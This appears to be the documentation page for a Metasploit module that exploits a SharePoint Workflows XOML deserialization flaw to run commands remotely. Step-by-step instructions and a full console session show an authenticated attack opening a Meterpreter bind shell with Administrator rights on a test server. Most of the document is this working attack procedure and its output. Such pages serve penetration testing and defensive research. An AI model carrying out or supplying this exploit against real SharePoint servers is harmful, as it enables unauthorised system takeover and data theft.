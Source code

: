 ## Vulnerable Application

This module exploits a vulnerability within SharePoint and its .NET backend
that allows an attacker to execute commands using specially crafted XOML data
sent to SharePoint via the Workflows functionality.

## Verification Steps

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/windows/http/sharepoint_workflows_xoml`
  1. Set the target options (`RHOSTS`, `RPORT` and `SSL`) as appropriate
  1. Set the authentication options (`DOMAIN`, `USERNAME` and `PASSWORD`) as appropriate
  1. Do: `run`
  1. You should get a shell

## Scenarios

### SharePoint 2019 on Server 2016

```
msf5 exploit(windows/http/sharepoint_workflows_xoml) > show options 

Module options (exploit/windows/http/sharepoint_workflows_xoml):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DOMAIN     WORKGROUP        yes       The domain to use for Windows authentication
   PASSWORD   Password1        yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.14   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to the SharePoint application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   administrator    yes       Username to authenticate as
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     192.168.159.14   no        The target address


Exploit target:

   Id  Name
   --  ----
   2   Windows Powershell


msf5 exploit(windows/http/sharepoint_workflows_xoml) > exploit

[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Started bind TCP handler against 192.168.159.14:4444
[*] Sending stage (206403 bytes) to 192.168.159.14
[*] Meterpreter session 3 opened (0.0.0.0:0 -> 192.168.159.14:4444) at 2020-03-23 18:11:44 -0400

meterpreter > sysinfo
Computer        : SHRPNT2019-P
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : SHRPNT2019P
Logged On Users : 14
Meterpreter     : x64/windows
meterpreter > getuid
Server username: SHRPNT2019P\Administrator
meterpreter >
```